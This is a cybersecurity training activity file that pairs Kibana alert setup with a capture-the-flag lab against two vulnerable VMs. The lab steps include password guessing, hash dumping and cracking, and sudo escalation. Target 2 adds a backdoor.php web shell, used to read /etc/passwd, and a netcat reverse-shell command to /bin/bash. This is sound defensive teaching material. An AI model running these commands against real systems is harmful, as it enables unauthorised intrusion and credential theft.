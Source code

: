 ## Activity File: Alert and Attacking Targets 1 and 2

Over the next two days, you must revisit your work from Project 2, implement at least three threshold alerts, and capture flags on two vulnerable VMs.

### Instructions

#### Configuring Alerts

Complete the following to configure alerts in Kibana:
1.  Enable the Kibana Premium Free Trial.

2. Click **Management** > **Watcher** > **Create Alert** > **Create Threshold Alert**

3. Implement three of the alerts you designed at the end of Project 2. After implementing each rule, log into the Kali VM and perform the steps from your previous exploitation against the Capstone VM. Make sure the alerts fire when expected.

You are free to configure any alerts you'd like, but we recommend starting with the following:

- **Excessive HTTP Errors**

  ```kql
  WHEN count() GROUPED OVER top 5 'http.response.status_code' IS ABOVE 400 FOR THE LAST 5 minutes
  ```
  
- **HTTP Request Size Monitor**

  ```kql
  WHEN sum() of http.request.bytes OVER all documents IS ABOVE 3500 FOR THE LAST 1 minute
  ```

- **CPU Usage Monitor**

  ```kql
  WHEN max() OF system.process.cpu.total.pct OVER all documents IS ABOVE 0.5 FOR THE LAST 5 minutes
  ```

#### Attacking Target 1

Now that you've configured alerts, you'll attack two new vulnerable VMs on the network: Target 1 and Target 2.

- Both Target 1 and Target 2 expose the same website. The pages look the same and both contain four flags. However, each web server has different vulnerabilities. First, you will focus on capturing flags on Target 1, the more vulnerable of the two.

Complete the following high-level steps:
1. Scan the network to identify the IP addresses of Target 1.

2. Document all exposed ports and services.

3. Enumerate the WordPress site. One flag is discoverable after this step.
     - **Hint**: Look for the `Users` section in the output.

4. Use SSH to gain a user shell. Two flags can be discovered at this step.
     - **Hint**: Guess `michael`'s password. What's the most obvious possible guess?...

5. Find the MySQL database password.
     - **Hint**: Look for a `wp-config.php` file in `/var/www/html`.

6. Use the credentials to log into MySQL and dump WordPress user password hashes.

7. Crack password hashes with `john`.
     - **Hint**: Start by creating a wp_hashes.txt with Steven and Michael's hashes, formatted as follows

      ```bash
      user1:$P$hashvalu3
      user2:$P$hashvalu3
      ```

8. Secure a user shell as the user whose password you cracked.

9. Escalate to `root`. One flag can be discovered after this step.
    - **Hint**:  Check sudo privileges. Is there a python command you can use to escalate to sudo?

Try to complete all of these steps. However, you may move on after capturing only _two_ of the four flags if you run out of time.

#### Attacking Target 2


Please note, you **attacking Target 2 is not required**. It is included as an additional challenge if you are interested in assessing a more complex web application. Before attempting this challenge, you should first complete the Wireshark analysis.

The steps for completing this assessment are enumerated below -- all details required to capture the first 3 flags on Target 2 are included.

1. Use Nmap to identify the IP address of Target 2.

2. Use Nmap to document all exposed ports and services at this IP address.

3. Enumerate the web server with `nikto`.
     - **Hint**: Run: `nikto -C all -h <URL>`
     - **Note**: This creates a list of URLs the Target HTTP server exposes. What kind of website is this VM running?

4. Perform a more in-depth enumeration with `gobuster`.
     - **Hint**
       - Install `gobuster` using `apt`
       - Run: `gobuster -w /path/to/wordlist dir -u <URL>`
       - Use `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` as your wordlist (`-w`).
       - Pay attention to the `/vendor` directory. There's a `flag` in here...


5. Use “searchsploit” to find any known vulnerabilities associated with the programs found in Step #4.
    **HINT**: Use `searchsploit -h` for some hints here.

6. Use the provided script, `exploit.sh`, to exploit this vulnerability by opening an Ncat connection to your Kali VM.
    - Edit the line at the top of the script that sets the `TARGET` variable. Set it equal to the IP address of Target 2.
    - Run the script. It uploads a file called `backdoor.php` to the target server. This file can be used to execute **command injection attacks**.
    - Navigate to: `http://<Target 2 URL>/backdoor.php?cmd=<CMD>`
      - This allows you to run bash commands on Target 2.
      - For example, try: `http://<Target 2 URL>/backdoor.php?cmd=cat%20/etc/passwd`
    - Next, use the backdoor to open a shell session on the target.
      - On your **Kali** VM, start a netcat listener: `nc -lnvp 4444`
      - In the browser, use the backdoor to run: `nc <Kali IP> 4444 -e /bin/bash`. For example, your query string will look like `cmd=nc%20<Kali IP>%204444%20-e%20/bin/bash`.

7. Using the shell you've opened on `Target 2`, find a `flag` in `/var/www`.

8. Next, find a flag in the WordPress uploads directory.
    - **Hint**: Use the `find` command: `find /var/www -type f -iname 'flag*'`

9. If you find all three flags -- congratulations! There is a fourth, but escalating to `root` is extremely difficult: For now, move on to completing a report about Target 2.

---
© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.
